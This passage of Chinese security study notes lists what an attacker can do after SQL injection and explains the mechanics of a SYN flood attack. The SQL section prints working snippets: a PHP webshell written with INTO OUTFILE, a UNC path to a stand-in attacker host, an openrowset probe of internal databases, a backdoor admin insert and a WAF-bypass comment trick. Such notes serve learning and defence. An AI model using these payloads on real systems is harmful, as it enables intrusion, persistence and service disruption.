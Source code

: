 #### **服务器层面攻击**

1. **植入 Webshell**
   - 通过注入写入 PHP/ASP 脚本到 Web 目录（如`SELECT '<?php eval($_POST[cmd]); ?>' INTO OUTFILE '/var/www/html/shell.php';`）。
   - 结合文件包含漏洞直接执行注入的恶意代码。
2. **操作系统控制**
   - 利用数据库扩展功能（如 MySQL 的`udf`）加载自定义动态链接库，执行任意系统命令。
   - 通过 UNC 路径攻击（如`\\attacker.com\malicious.dll`）触发远程代码执行。
3. **端口扫描与横向移动**
   - 通过数据库查询（如`SELECT * FROM openrowset('sqloledb', 'DRIVER={SQL Server};SERVER=192.168.1.100;UID=sa;PWD=pass', 'SELECT * FROM sys.tables')`）探测内网数据库。
   - 利用数据库作为跳板，攻击其他服务器（如 Redis、SSH）。

#### **权限维持与持久化**

1. **创建后门账户**
   - 直接向用户表插入管理员账号（如`INSERT INTO admins (username, password) VALUES ('admin', 'p@ssw0rd');`）。
   - 利用数据库存储过程（如 MySQL 的`CREATE EVENT`）定期执行恶意操作。
2. **绕过 WAF/IDS**
   - 使用编码（如 URL 编码、Unicode 转义）或混淆技术（如`/*!50000SELECT*/`）绕过防护设备。
   - 通过`UNION ALL SELECT`与错误回显结合，隐蔽传输数据。

# SYN泛洪攻击（SYN Flood，属于DDOS）

### **一、攻击原理**

#### 1. **TCP 三次握手回顾**

正常 TCP 连接建立过程如下：

1. **客户端发送 SYN 请求**：向服务器发起连接请求。
2. **服务器回复 SYN-ACK**：确认请求，并等待客户端确认。
3. **客户端发送 ACK**：完成连接，开始通信。

#### 2. **SYN 攻击的核心逻辑**

- **伪造源 IP**：攻击者通过工具生成大量虚假的 IP 地址，伪装成正常客户端发送 SYN 请求。
- **半连接队列溢出**：
  - 服务器收到客户端的 SYN 请求后，会分配资源（如内存、文件描述符），并将连接状态标记为`SYN_RECV`，存入**半连接队列**。
  - 服务器随后发送 SYN-ACK 包，并等待客户端的 ACK 确认，未收到客户端的确认包时，重发请求包，一直到超时。若客户端未响应（如源 IP 伪造），该连接会在超时后被删除（通常约 1 分钟）。
  - 完成三次握手的连接会被移至**全连接队列（已完成连接队列）**，等待应用层处理。
- **无 ACK 响应**：由于源 IP 是伪造的，服务器发送的 SYN-ACK 无法得到回应，导致连接一直处于 “半开” 状态，资源被长期占用。

### **二、攻击流程**

1. **攻击者控制肉鸡**：通过恶意软件感染大量主机（肉鸡），形成僵尸网络（Botnet）。
2. **发送海量 SYN 请求**：所有肉鸡同时向目标服务器发送伪造的 SYN 包，请求建立连接。
3. **服务器资源耗尽**：服务器忙于处理这些虚假请求，无法响应正常用户的连接，最终导致服务中断。

### **三、危害与影响**

